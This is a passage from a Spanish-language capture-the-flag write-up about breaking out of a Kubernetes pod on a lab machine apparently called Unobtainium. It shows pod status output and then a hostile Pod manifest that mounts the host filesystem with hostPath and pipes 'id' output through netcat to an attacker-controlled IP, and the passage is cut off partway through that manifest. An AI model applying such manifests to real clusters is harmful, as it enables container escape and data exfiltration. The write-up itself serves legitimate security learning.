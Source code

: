 ````bash
    Restart Count:  94
    Environment:    <none>
    Mounts:
      /var/run/secrets/kubernetes.io/serviceaccount from default-token-l85f2 (ro)
Conditions:
  Type              Status
  Initialized       True 
  Ready             False 
  ContainersReady   False 
  PodScheduled      True
Volumes:
  default-token-l85f2:
    Type:        Secret (a volume populated by a Secret)
    SecretName:  default-token-l85f2
    Optional:    false
QoS Class:       BestEffort
Node-Selectors:  <none>
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:
  Type     Reason   Age                    From     Message
  ----     ------   ----                   ----     -------
  Warning  BackOff  4m4s (x532 over 118m)  kubelet  Back-off restarting failed container
```

Entre algunos cambios que hice, el que me dio resultado fue el campo `Image`, el cual vemos que es distinto al de nuestro archivo `.yaml`:

> Además vemos que ese **pod** en concreto se comunica con el sistema host `unobtainium/10.10.10.235`, eso también me llamo a atención...

**aaa.yaml**:

```yaml
image: busybox:1.29.2
```

**backup-pod**:

```yaml
image: localhost:5000/dev-alpine
```

Puede ser que nos esté generando error por eso, ya que la imagen `busybox:1.29.2` lo más probable es que no exista y por el contrario `localhost:5000/dev-alpine` si, pues copiemos esa imagen en nuestro **pod** e intentemos crearlo de nuevo:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: localhost:5000/dev-alpine
    command: ["/bin/sh"]
    args: ["-c", "id | nc 10.10.14.146 4435"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
````